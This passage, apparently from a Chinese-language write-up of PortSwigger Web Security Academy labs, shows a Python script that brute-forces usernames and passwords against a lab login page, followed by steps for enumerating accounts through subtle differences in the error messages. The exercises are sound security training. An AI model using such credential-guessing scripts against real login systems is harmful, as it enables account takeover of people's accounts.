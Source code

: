                 response = requests.post(
                    'https://0a0c008d03de822e80d7fdae008d005f.web-security-academy.net/login',
                    cookies=cookies,
                    headers=headers,
                    data=data,
                )
                
                print(f'\rTrying username: {i.strip()}        ', end='')

                if 'Invalid username' not in response.text:
                    print(f'\nFound username: {i.strip()}')
                    break

    def enum_password():
        with open('password.txt', 'r') as f:
            passwords = f.readlines()
            for i in passwords:
                data = {
                    'username': 'ansible',
                    'password': i.strip(),
                }

                response = requests.post(
                    'https://0a0c008d03de822e80d7fdae008d005f.web-security-academy.net/login',
                    cookies=cookies,
                    headers=headers,
                    data=data,
                )
                
                print(f'\rTrying password: {i.strip()}              ', end='')

                if 'Incorrect password' not in response.text:
                    print(f'\nFound password: {i.strip()}')
                    break

    if __name__ == '__main__':
        init()
        enum_password()
    ```
2. 取得正確帳號為 `ansible`，密碼為 `michelle`，登入後即完成 Lab。
:::

::: tip **Lab: [Username enumeration via subtly different responses](https://portswigger.net/web-security/authentication/password-based/lab-username-enumeration-via-subtly-different-responses)**

1. 嘗試任意登入，發現回應 `Invalid username or password.`
2. 使用 Burp 的 Intruder 枚舉使用者名稱，觀察回應的差異，發現在枚舉到使用者 `auth` 的時候，回應為 `Invalid username or password`，其少了一個句點（`.`）。
3. 猜測存在使用者 `auth`
4. 使用使用者 `auth` 枚舉使用者的密碼，在枚舉到密碼 `777777` 的時候，回應中沒有 `Invalid username or password`。
5. 使用使用者名稱、密碼：`auth`/`777777` 登入通過此 Lab。
:::

::: tip Lab: [Username enumeration via response timing](https://portswigger.net/web-security/authentication/password-based/lab-username-enumeration-via-response-timing)
